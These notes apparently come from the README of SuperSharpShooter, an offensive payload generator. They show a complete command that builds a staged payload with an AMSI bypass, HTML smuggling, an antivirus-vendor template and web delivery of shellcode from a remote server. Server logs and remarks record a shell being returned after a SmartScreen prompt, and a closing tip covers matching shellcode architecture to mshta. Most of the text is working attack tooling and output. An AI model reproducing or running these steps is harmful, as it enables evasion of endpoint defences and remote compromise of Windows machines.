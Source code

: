 
After clicking/running the smuggled payload directly from the browser (roughly 30 seconds later):

192.168.1.86 - - [19/Jan/2022:23:21:12 -0800] "-" 408 0 "-" "-"


After waiting between 3 mins and 10 mins based on testing:

"SmartScreen can't be reached.  Run anyways?".  After clicking yes, the payload is downloaded, and a shell is returned


... which is strange, because if you try to run the smuggled payload that's downloaded directly from the Downloads folder (outside of the browser), a shell is returned in a very reasonable amount of time.  Suspecting isolated SmartScreen filter as adding a massive latency.


### Staged with AMSI Bypass, web delivery, HTML Smuggling of the stager
    ./SuperSharpShooter.py --dotnetver 4 --shellcode --payload js --output test --amsi amsienable --smuggle --template mcafee --delivery web --web http://192.168.1.99/test.pay --scfile /var/www/html/met64.sharp

Technique notes:

Test host Windows 10, no internet

The initial load of the .html:

192.168.1.86 - - [19/Jan/2022:23:20:20 -0800] "GET /test.html HTTP/1.1" 200 61396 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36

^^ 200 status code '200 61396 "-"'


After about 30 seconds after clicking the .js file:

192.168.1.86 - - [19/Jan/2022:23:21:12 -0800] "-" 408 0 "-" "-"

^^ 408 status code '408 0 "-"'


After anywhere between 2 mins and 10 mins (based on testing)  total from .js click/run, "SmartScreen can't be reached.  Run anyways?".  After clicking yes, the payload is downloaded, and a shell is returned:

192.168.1.86 - - [19/Jan/2022:23:22:58 -0800] "GET /test.pay HTTP/1.1" 200 3373 "-" "Mozilla/5.0 (Windows NT 10.0; WOW64; Trident/7.0; rv:11.0) like Gecko"

^^ 200 status code '"GET /test.pay HTTP/1.1" 200 3373 "-"'

### Other notes:

For .hta payloads, mshta.exe is a 32-bit process, so keep in mind your shellcode should be 32bit too in that case.  Else, most likely prefer x64bit shellcode for all other scenarios in modern environments.

Also, don't be afraid of the DotNet ver=4, that's fixed now by the way.


